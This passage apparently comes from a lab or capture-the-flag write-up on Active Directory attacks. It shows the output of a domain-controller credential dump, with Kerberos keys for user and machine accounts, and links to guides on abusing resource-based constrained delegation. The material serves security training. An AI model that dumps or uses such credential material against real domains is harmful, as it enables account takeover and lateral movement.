 ```shell
bardot.mary:aes256-cts-hmac-sha1-96:54123fcaa07765a4d8136cf95cff67173d31d6c049f1d0936cb33c257aab20c5
bardot.mary:aes128-cts-hmac-sha1-96:a941571a50d40fa5771c8deffa44a501
bardot.mary:des-cbc-md5:bc79e0a8f7dfdc10
cromwell.gerard:aes256-cts-hmac-sha1-96:397983e21a3742e1d9c53bd51570a89dfdb9b79cfc15eb294500e16eee9c5a0c
cromwell.gerard:aes128-cts-hmac-sha1-96:a495521b2d0992a21d0cd6b968dbb042
cromwell.gerard:des-cbc-md5:0e2f37ae7c58310b
monroe.david:aes256-cts-hmac-sha1-96:13dd6e3f424e0e3b394964ceaf9f739c19a680c97648b1531b8e417012d9775d
monroe.david:aes128-cts-hmac-sha1-96:a15fd3bccfb2e7ead3bdf2fe4c47f355
monroe.david:des-cbc-md5:a86b5829047f2557
west.laura:aes256-cts-hmac-sha1-96:54a3167b1c9ee166874a6b09b08621394b049197270d4b754e8fedb78ee86b88
west.laura:aes128-cts-hmac-sha1-96:864381e434a5856d85c1f61bc8726378
west.laura:des-cbc-md5:8a923480ec7cd9d3
langley.lucy:aes256-cts-hmac-sha1-96:f2415b075b6e205864de19917a9989398672b062dad29d58af177d358e086998
langley.lucy:aes128-cts-hmac-sha1-96:20cdc3297fc8138726e34e45ba9f73d6
langley.lucy:des-cbc-md5:fd738a3dd0028fb0
daughtler.mabel:aes256-cts-hmac-sha1-96:7ce8f29915849ec300bd81341759d19c67e045501e1ee7e198fe37a7ee51af8d
daughtler.mabel:aes128-cts-hmac-sha1-96:791efedf5473d798dbc3267ce6d045aa
daughtler.mabel:des-cbc-md5:01ba80795bbc3ea8
stoll.rachelle:aes256-cts-hmac-sha1-96:d9cca58315e797cdb21ca8ad71278112357291a970a90084586a38d4c5ff38c2
stoll.rachelle:aes128-cts-hmac-sha1-96:c7768011ce94e18fae341bdfb5223bc3
stoll.rachelle:des-cbc-md5:b63d15683434b38f
ford.victoria:aes256-cts-hmac-sha1-96:de0a90f4f874ebb0937df96bc14308dcbb54835ac622ad16b79cf9509313f205
ford.victoria:aes128-cts-hmac-sha1-96:2241c9137590e4bde952ac411a1c22c6
ford.victoria:des-cbc-md5:13d573730ba8641f
DC$:aes256-cts-hmac-sha1-96:8967dbe9fbee0f7c51a1d6fd27d7a000c3f8076917f6f9fffa25dedaae723e32
DC$:aes128-cts-hmac-sha1-96:05e4d9d3783b169a2f7e48437c1cdb8b
DC$:des-cbc-md5:52739e08613120c4
MANAGEMENT$:aes256-cts-hmac-sha1-96:e1080e0ca1d845206ef99d5b6d336095c3362efd55e516442de41738d18a1b92
MANAGEMENT$:aes128-cts-hmac-sha1-96:fcf45088bf727e997d0368bd88bdbf02
MANAGEMENT$:des-cbc-md5:40c7f4582c75b364
GR4YPC$:aes256-cts-hmac-sha1-96:88db6a3796b239829240e6d2f5ee673d9bdac0dfc80b3e57856f8b20b86ec971
GR4YPC$:aes128-cts-hmac-sha1-96:7e738ac61c94c774ce026f3dba65c4c4
GR4YPC$:des-cbc-md5:f480859b706dea64
```

- and we have retrieved all the hashes in the DC

Guides for RBCD
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
- [https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/](https://redfoxsec.com/blog/rbcd-resource-based-constrained-delegation-abuse/)
- [https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
- [https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd](https://www.alteredsecurity.com/post/resource-based-constrained-delegation-rbcd)
- [https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a](https://medium.com/r3d-buck3t/how-to-abuse-resource-based-constrained-delegation-to-gain-unauthorized-access-36ac8337dd5a)
